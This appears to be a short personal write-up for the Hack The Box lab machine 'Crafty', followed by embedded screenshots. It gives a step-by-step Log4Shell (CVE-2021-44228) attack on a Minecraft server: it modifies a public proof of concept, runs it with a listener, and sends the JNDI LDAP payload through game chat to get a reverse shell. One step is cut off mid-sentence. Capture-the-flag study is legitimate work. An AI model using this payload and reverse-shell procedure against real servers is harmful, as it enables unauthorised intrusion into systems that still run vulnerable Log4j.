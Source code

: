 
Vulnerability: CVE-2021-44228 (Minecraft)




Crafty Overall path towards gaining user:
1. Download TLauncher from https://tlauncher.org/jar
2. Clone this https://github.com/kozmer/log4j-shell-poc , change poc.py line 26 from String cmd="/bin/sh"; to String cmd="cmd.exe";
3. Download JDK 8: wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk...x64.tar.gz
4. Execute log4j exploit like: python3 poc.py --userip [Your VPN IP] --webport 8000 --lport 9001 (Remember to open nc listener on port 9001)
5. When ex 
6. Using JDK 8 run the TLauncher, jar file and select the Fabric 1.16.5 from Version and install it. After installation run the Game. Press T for chat and enter: ${jndi:ldap://your vpn ip:1389/a}. You should receive rev shell as svc_minecraft (User Flag Owned) 
   
   https://breachforums.cx/Thread-HTB-Crafty
   
   
# IMG
![[Pasted image 20240309144937.png]]

   
   
Add Server
![[Pasted image 20240309145213.png]]
![[Pasted image 20240309234035.png]]![[Pasted image 20240309234106.png]]
![[Pasted image 20240310001816.png]]

![[Pasted image 20240310003232.png]]

![[Pasted image 20240310003354.png]]

![[Pasted image 20240310003432.png]]
![[Pasted image 20240310003533.png]]